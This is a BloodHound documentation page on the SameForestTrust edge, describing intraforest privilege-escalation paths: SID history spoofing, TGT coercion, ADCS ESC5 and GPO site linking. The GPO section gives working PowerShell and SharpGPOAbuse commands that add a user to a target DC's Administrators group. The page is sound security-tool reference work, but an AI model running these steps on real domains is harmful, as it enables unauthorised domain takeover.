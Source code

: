 ---
title: SameForestTrust
description: The SameForestTrust edge represents a trust relationship between two domains within the same AD forest. 
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

In this relationship, the source node domain has a same-forest (intraforest) trust to the destination node domain, allowing principals (users and computers) from the destination domain to access resources in the source domain.

Because the domains are part of the same forest, they inherently trust each other, granting implicit control over resources across domains.

Abuse Info
----------

An attacker with control over any domain within the forest can escalate their privileges to compromise other domains through multiple methods.

### **Spoof SID history**

An attacker can spoof the SID history of a principal in the target domain, tricking the target domain into treating the attacker as a privileged user.

See the [SpoofSIDHistory](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/spoof-sid-histroy) edge for more information.

This attack fails if SID filtering (quarantine) is enabled on the trust relationship in the opposite direction of the attack. The SID filtering blocks SIDs belonging to any other domain than the attacker-controlled domain. However, enabling this setting is rare and generally not recommended.

### **Coerce to TGT**

An attacker can coerce a privileged computer (e.g., a DC) in the target domain to authenticate to an attacker-controlled computer configured with unconstrained delegation. This provides the attacker with a Kerberos TGT for the coerced computer.

See the [CoerceToTGT](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/coerce-to-tgt) edge for more information.

The attack fails if SID filtering (quarantine) is enabled, as this prevents TGTs from being sent across the trust boundary. Again, this setting is rarely configured.

### **ADCS ESC5**

The Configuration Naming Context (NC) is a forest-wide partition writable by any DC within the forest. Most Active Directory Certificate Services (ADCS) configurations are stored in the Configuration NC. An attacker can abuse a DC to modify ADCS configurations to enable an ADCS domain escalation opportunity that compromises the entire forest.

**Attack Steps:**

1. Obtain a SYSTEM session on a DC in the attacker-controlled domain
2. Create a certificate template allowing ESC1 abuse
3. Publish the certificate template to an enterprise CA
4. Enroll the certificate as a privileged user in the target domain
5. Authenticate as the privileged user in the target domain using the certificate

See this blog post for further details: [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c).

If ADCS is not installed: An attacker can install ADCS and exploit it, as detailed in the blog post: [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/).

### **GPO linked on Site**

AD sites are stored in the forest-wide Configuration NC partition, writable by any DC within the forest. An attacker with SYSTEM access to a DC can link a malicious GPO to the site of any DC in the forest.

**Step 1: Obtain a SYSTEM session on a DC in the attacker-controlled domain**
Use PsExec to start a PowerShell terminal as SYSTEM on the DC:

```powershell
PsExec64.exe -s -i -accepteula powershell
```

**Step 2: Create a GPO**
Use the GroupPolicy module of RSAT to create the new GPO:

```powershell
New-GPO -Name "MyGPO"
```

**Step 3: Add the compromising setting to the GPO**
Use SharpGPOAbuse to add a scheduled task:

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "MyTask" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators /Add DUMPSTER\tim" --GPOName "MyGPO"
```

**Step 4: Identify a target DC and its site**
Use the ActiveDirectory module of RSAT to query for DCs in the target domain:

```powershell
Get-ADDomainController -server bastion.local | select Name,Site
```

Look up the site DistinguishedName:

```powershell
Get-ADReplicationSite Default-First-Site-Name | select DistinguishedName
```

**Step 5: Set the GPO permissions**

This step is important to avoid applying the GPO to all computers connected to the site. Use the GroupPolicy module of RSAT to modify the permissions such that Authenticated Users can read the object but only the targeted computer applies the GPO settings:

```powershell
$GPO = Get-GPO -Name "MyGPO"
$GPO | Set-GPPermissions -PermissionLevel GpoRead -TargetName "Authenticated Users" -TargetType Group -Replace
$GPO | Set-GPPermissions -PermissionLevel GpoApply -TargetName "BASTION\\bldc01" -TargetType Computer
```

**Step 6: Link the GPO to the site**
Use the GroupPolicy module of RSAT to link the GPO to the site:

```powershell
New-GPLink -Name "MyGPO" -Target "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=bastion,DC=local" -Server dc01.dumpster.fire
```

Note that you must specify the server to be the DC where you are running the command, as the command defaults to execute the change on a root domain DC where the compromised DC does not have the permissions to link the GPO.

Wait until replication has happened and the GPO has applied on the target DC, and log in with Administrators access on the compromised DC. Replication within the same site happens within 15 seconds but runs on 3 hour schedule by default across sites. GPOs are applied on a 90-120 min interval by default.

Opsec Considerations
----------

There is no OPSEC associated with this edge.

References
----------

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1134.005: Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)
* [T1187: Forced Authentication](https://attack.mitre.org/techniques/T1187/)
* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
* [T1558: Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
* [T1550.003: Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
* [T1484.001: Domain or Tenant Policy Modification: Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)

Abuse info references:

* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
* [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
* [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/)
* [SID filter as security boundary between domains? (Part 4)](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
* [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

